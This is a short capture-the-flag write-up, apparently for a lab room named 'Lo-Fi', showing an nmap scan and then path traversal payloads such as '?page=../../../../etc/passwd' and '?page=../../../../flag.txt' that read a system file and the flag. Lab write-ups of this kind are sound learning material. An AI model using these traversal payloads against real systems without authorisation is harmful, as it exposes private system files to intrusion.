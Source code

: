 # Lo-Fi write-up

First we defiind the ip 
```
IP=xx.xx.xxx.xxx
```

I started analyzing the environment using __`nmap`__  to discover open ports 

```
nmap -sV -sC -oN nmap_scan $IP
```
___
-sV = Server version
___
-sC = Default scripts
____
-oN = Saves the output 
___

![image](https://github.com/user-attachments/assets/d8e915e9-250b-4fe4-817e-5fe510265fc2)

We see the port `80 http` it s open 


![image](https://github.com/user-attachments/assets/ee77abff-0f66-4f70-8e99-76f8b7c0806d)

Lets try exploiting somting here ... 



![image](https://github.com/user-attachments/assets/df9b828d-4d57-47cb-9681-6f63c5d21179)

With
```
?page=/../../../../etc/passwd
```
![image](https://github.com/user-attachments/assets/d16fa1dc-9e99-4ad1-9d33-f8593588a656)

Not good ... but not bad eather 
----
Let s try without the root directory first 


```
?page=../../../../etc/passwd
```

![image](https://github.com/user-attachments/assets/9a7fa12b-6a74-4b1a-a9d9-d7398edf184e)

Perferct 👑
Now ... where it s the flag ? After some deep digging ... 2h 🥹 i find it in 
```
?page=../../../../flag.txt
```
![image](https://github.com/user-attachments/assets/974754f1-b5aa-4848-bbbd-584c8925605a)









